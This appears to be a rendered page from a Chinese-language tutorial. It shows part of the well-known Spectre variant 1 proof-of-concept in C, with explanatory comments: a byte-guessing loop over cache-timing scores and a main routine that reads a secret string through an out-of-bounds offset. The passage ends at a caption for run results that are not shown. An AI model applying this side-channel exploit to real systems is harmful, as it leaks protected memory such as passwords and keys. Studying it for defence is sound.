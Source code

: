 ```c
 	/* 通过循环确定最有可能和第二可能字符的ascii码值k，j */
 	j = k = -1;
 	for (i = 0; i < 256; i++) {
 		if (j < 0 || results[i] >= results[j]) {
 			k = j;
 			j = i;
 		} else if (k < 0 || results[i] >= results[k]) {
 			k = i;
 		}
 	}
 	if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
 	break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
 }
 	results[0] ^= junk; /* use junk so code above won’t get optimized out*/
 	value[0] = (uint8_t)j;
 	score[0] = results[j];
 	value[1] = (uint8_t)k;
 	score[1] = results[k];
 }

int main(int argc, const char **argv) {
        size_t malicious_x=(size_t)(secret-(char*)array1); /* default for malicious_x */ 
		/* 注意，malicious_x实际上是指内存中的secret指针对应字符串地址相对于array1 byte数组的偏移值。*/
        int i, score[2], len=40; /* len对应于secret字符串长度，表示需要猜解泄露信息的长度， score数组存放猜解字符的可信度。*/
        uint8_t value[2]; /* value数组存放最终的猜测结果 */
        for (i = 0; i < sizeof(array2); i++)
                array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */ /* 初始化array2到内存 */
        if (argc == 3) {
                sscanf(argv[1], "%p", (void**)(&malicious_x));
                malicious_x -= (size_t)array1; /* Convert input value into a pointer */
                sscanf(argv[2], "%d", &len);
        }

        printf("Reading %d bytes:\n", len);
        while (--len >= 0) {
                printf("Reading at malicious_x = %p... ", (void*)malicious_x);
                readMemoryByte(malicious_x++, value, score);
                printf("%s: ", (score[0] >= 2*score[1]?"Success":"Unclear"));
                /* 打印value[0]中整型值对应的ascii可显示的字符（ascii可见范围为31～127）*/
                printf("0x%02X=’%c’ score=%d  ", value[0],(value[0] > 31 && value[0] < 127?value[0]:'?'),score[0]); 
                if (score[1] > 0)
         			printf("(second best: 0x%02X score=%d)", value[1], score[1]);
                printf("\n");
        }
        return (0);
}
```
在ubuntu 14.04 x86-64 上运行结果见下图：